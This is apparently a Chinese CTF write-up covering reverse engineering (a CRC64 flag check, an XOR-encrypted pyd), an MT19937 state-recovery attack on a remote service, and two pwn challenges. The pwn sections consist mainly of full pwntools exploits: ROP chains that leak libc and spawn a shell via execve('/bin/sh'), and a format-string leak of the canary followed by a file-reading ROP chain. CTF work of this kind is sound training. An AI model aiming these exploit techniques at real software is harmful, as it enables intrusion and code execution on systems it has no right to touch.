但是这里出了点问题,所有我先将他编译成汇编.s然后再编译成exe

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  int i; // [esp+20h] [ebp-D8h]
  unsigned __int64 v6; // [esp+28h] [ebp-D0h]
  _OWORD input_flag[4]; // [esp+30h] [ebp-C8h] BYREF
  __int16 v8; // [esp+70h] [ebp-88h]
  _OWORD v9[6]; // [esp+80h] [ebp-78h]
  int v10; // [esp+ECh] [ebp-Ch]

  v10 = 0;
  v9[5] = xmmword_71A1C0;
  v9[4] = xmmword_71A1B0;
  v9[3] = xmmword_71A1A0;
  v9[2] = xmmword_71A190;
  v9[1] = xmmword_71A180;
  v9[0] = xmmword_71A170;
  memset(input_flag, 0, sizeof(input_flag));
  v8 = 0;
  printf("Input U flag:");
  scanf("%s", input_flag);
  v6 = 0LL;
  for ( i = 0; ; ++i )
  {
    LODWORD(v3) = strlen((const char *)input_flag);
    if ( v6 >= __PAIR64__(HIDWORD(v3) >> 1, v3 >> 1) )
      break;
    if ( sub_701000((int)input_flag + v6, 2uLL) != __PAIR64__(*((_DWORD *)v9 + 2 * i + 1), *((_DWORD *)v9 + 2 * i)) )
    {
      printf("Error!");
      return 0;
    }
    v6 += 2LL;
  }
  printf("Success");
  return 0;
}
```

```c
__int64 __cdecl sub_701000(int a1, unsigned __int64 i_1)
{
  unsigned __int64 j; // [esp+0h] [ebp-34h]
  unsigned __int64 i; // [esp+8h] [ebp-2Ch]
  __int64 v5; // [esp+10h] [ebp-24h]

  v5 = -1LL;
  for ( i = 0LL; i < i_1; ++i )
  {
    HIDWORD(v5) ^= *(unsigned __int8 *)(a1 + i) << 24;
    for ( j = 0LL; j <= 7; ++j )
    {
      if ( v5 >= 0 )
        v5 *= 2LL;
      else
        v5 = (2 * v5) ^ 0x42F0E1EBA9EA3693LL;
    }
  }
  return ~v5;
}


程序实现的是一个标准CRC64/ECMA-182，验证输入的字符串和程序里的CRC是否匹配，每两个字符对应一个8字节CRC

使用python脚本解密
```



### Moon

直接看pyd





```
xor_crypt(seed_value, data_bytes)

DATA
    SEED = 1131796
    TARGET_HEX = '426b87abd0ceaa3c58761bbb0172606dd8ab064491a2a76af9a93e1a...
    __test__ = {}
```

猜测是一个异或的加密，有随机数种子和密文

外部调用pyd的crypt函数，进行解密即可

```
import moon

xor_result = moon.xor_crypt(1131796,b'Bk\x87\xab\xd0\xce\xaa<Xv\x1b\xbb\x01r`m\xd8\xab\x06D\x91\xa2\xa7j\xf9\xa9>\x1a\xe5o\xa8B\x06\xa2\xf7')

print(xor_result)
```

## Crypto

### Division

脚本直接生成

```
from pwn import *
import random


# ---------- 状态恢复辅助函数 ----------
def undo_right(y, shift):
    """逆转： y = x ^ (x >> shift)"""
    result = 0
    for i in range(32):
        bit = (y >> (31 - i)) & 1
        if (31 - i + shift) < 32:
            bit ^= (result >> (31 - i + shift)) & 1
        result |= (bit << (31 - i))
    return result


def undo_left(y, shift, mask):
    """逆转： y = x ^ ((x << shift) & mask)"""
    result = 0
    for i in range(32):
        bit = (y >> i) & 1
        if i - shift >= 0:
            bit ^= ((result >> (i - shift)) & 1) & ((mask >> i) & 1)
        result |= (bit << i)
    return result


def untemper(y):
    """
    逆转 MT19937 tempering 过程：
        y ^= (y >> 11)
        y ^= ((y << 7) & 0x9d2c5680)
        y ^= ((y << 15) & 0xefc60000)
        y ^= (y >> 18)
    """
    y = undo_right(y, 18)
    y = undo_left(y, 15, 0xefc60000)
    y = undo_left(y, 7, 0x9d2c5680)
    y = undo_right(y, 11)
    return y


def recover_state(outputs):
    """
    根据 624 个输出恢复内部状态
    :param outputs: 32 位随机数列表，长度>=624
    :return: 内部状态列表（624 个数）
    """
    assert len(outputs) >= 624, "至少需要 624 个输出！"
    return [untemper(x) for x in outputs[:624]]


def set_local_random_state(recovered_state):
    """
    将恢复的状态设置到 Python 的 random 模块中
    内部状态格式：(version, (state tuple, index), gauss)
    """
    mt_state = (3, tuple(recovered_state + [624]), None)
    random.setstate(mt_state)


def get_predicted_answer():
    """
    预测后续生成的两个大随机数，并计算正确答案
    """
    rand1 = random.getrandbits(11000)
    rand2 = random.getrandbits(10000)
    return rand1 // rand2


# ---------- 与服务器交互部分 ----------
def parse_output(line):
    """
    解析选项 [1] 返回的输出，期望格式类似：
    "nominator//1 = <number>"
    """
    try:
        return int(line.split('=')[-1].strip())
    except Exception as e:
        log.failure("解析输出失败: " + line)
        return None


def main():
    # 修改以下地址为实际的目标服务器 IP 与端口
    remote_ip = "47.94.103.208"  # 请替换为实际 IP
    remote_port = 22544 # 请替换为实际端口
    p = remote(remote_ip, remote_port)

    outputs = []
    log.info("开始收集 624 个随机输出...")
    for i in range(624):
        p.recvuntil(b': >>> ')
        p.sendline(b'1')  # 选择 Division calc
        p.recvuntil(b'input the denominator: >>> ')
        p.sendline(b'1')  # 发送除数 1，确保输出为随机数本身
        # 接收并解析输出行，格式类似： "nominator//1 = <number>"
        line = p.recvline().decode()
        num = parse_output(line)
        if num is None:
            log.failure("第 {} 次输出解析失败".format(i + 1))
            return
        outputs.append(num)
        log.info("收集 {}/624 输出: {}".format(i + 1, num))

    log.info("恢复内部状态中...")
    recovered_state = recover_state(outputs)
    set_local_random_state(recovered_state)

    # 接下来选择 [2] 获取 flag
    p.recvuntil(b': >>> ')
    p.sendline(b'2')
    p.recvuntil(b'input the answer: >>> ')
    answer = str(get_predicted_answer()).encode()
    log.info("发送预测答案: " + answer.decode())
    p.sendline(answer)

    # 获取 flag 输出
    result = p.recvline().decode().strip()
    log.success("服务器返回: " + result)

    # 如果有更多输出，可以继续交互
    p.interactive()


if __name__ == '__main__':
    main()
```



## PWN

### Ret2libc' Revenge

**程序有个无限制的溢出,因此我们就要想办法去寻找有没有其他的gadget可用,因为是无限的溢出，所以我们可以随便跳回来，难点主要是泄露libc，有了libc，就有了各种gadget和函数**

**泄露****libc****肯定是用****puts****函数，也就是说，我们要想办法让****rdi****的值为一个地址，这个地址中存放的是一个****libc****相关的地址**

**发现了这个两个****gadget**

**0x0000000000401180 : mov rdi, rsi ; ret**

```
# .text:00000000004010EB                add 
# .text:00000000004010EF                retn   rsi, [rbp+20h]
```

**只需要让****rbp+0x20****的位置存放的是****5****，让****rsi****加****5****，然后再把****rsi****赋值给****rdi****就行了**



**DT\_STRTAB****：字符串表，****d\_ptr****是字符串表地址**

**d\_tag位置刚好为5**

**那我们就能泄露libc了**

```
0xebc88 execve("/bin/sh", rsi, rdx) constraints: address rbp-0x78 is writable [rsi] == NULL || rsi == NULL || rsi is a valid argv [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

注意我们还要使得rsi和rdx为0，使用libc里的gadget很容易就能做到这点

```
from pwn import *
context(os='linux', arch='amd64', log_level='debug')


def debug(ins=None):
    if ins == None:
        gdb.attach(p)
        pause()
    else:
        gdb.attach(p, ins)
        pause


def get_process(file,socket=None):
    try:
        choice = sys.argv[1]
        socket = socket.split(':')
        return remote(socket[0],socket[1])
    except:
        return process(file)


p = get_process('./attachment')
elf = ELF('./attachment')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

puts_plt = elf.plt['puts']
call_puts = 0x401294
main = 0x40127B

got_addr = 0x404000
mov_rdi_rsi = 0x401180
_5addr = 0x403EA0
add_rsi = 0x4010EB

p64(puts_plt) + p64(main)


for i in range(200):
    payload = b'a'*0x218 + p32(0) + p32(0x21d)  + p64(_5addr-0x20) + p64(add_rsi) + p64(mov_rdi_rsi) + p64(puts_plt) + p64(main)
    debug()
    p.sendline(payload)

p.recvuntil(b"Ret2libc's Revenge
")
libc_base = u64(p.recv(6).ljust(8,b'\x00')) - (0x7f9dd6e85a80 - 0x7f9dd6c69000)
log.success('libc_base:'+hex(libc_base))
one_gadgets = [0xebc81,0xebc85,0xebc88,0xebd43,0xebd3f,0xebd38,0xebce2]


pop_rsi = libc_base + 0x000000000002be51
pop_rdx_rbx = libc_base + 0x00000000000904a9
payload = b'a'*0x218 + p32(0) + p32(0x21d)  + p64(_5addr+0x1050) +p64(pop_rsi)+ p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(libc_base+one_gadgets[2])
p.sendline(payload)
p.interactive()
```

### girlfriend

```
from pwn import *

io = process("./girlfriend")

elf = ELF("./girlfriend")

context(arch='amd64', os='linux', log_level='debug')


io.sendafter(b"Your Choice:
", "3")
xielou = b'%17$p-%15$p-%7$p-%3$p'
io.sendafter(b"You should tell her your name first
", xielou)
io.recvline()


libc_base = int(io.recv(14), 16) - 0x29d90
io.recvuntil(b"-")

cannary = int(io.recv(18), 16)
io.recvuntil(b"-")

codebase_addr = int(io.recv(14), 16) - 0x18d9
io.recvuntil(b"-")

lev_ret_addr = codebase_addr + 0x194E

rop_addr = codebase_addr + 0x4060
flag_addr = codebase_addr + 0x21ee
pop_rdi = libc_base + 0x2a3e5
pop_rsi = libc_base + 0x16333a
pop_rdx = libc_base + 0x108b03
pop_rax = libc_base + 0x45eb0
syscall_ret = libc_base + 0x91316

mov_r10 = libc_base + 0x119174   # 0x119174 mov r10, rcx; mov eax, 0x28; syscall;
payload = flat(pop_rdi,0,pop_rsi,flag_addr,pop_rdx,0,0,0,pop_rax,257,syscall_ret,pop_rdi,1,pop_rsi,3,pop_rdx,0,0x100,0,mov_r10,syscall_ret,codebase_addr+0x1220)

io.send("3")

io.sendafter(b'You should tell her your name first
',payload)

io.send("1")
io.sendafter(b'what do you want to say to her?
',b'a'*0x38+p64(cannary)+p64(rop_addr-0x8)+p64(lev_ret_addr))


io.interactive()
```
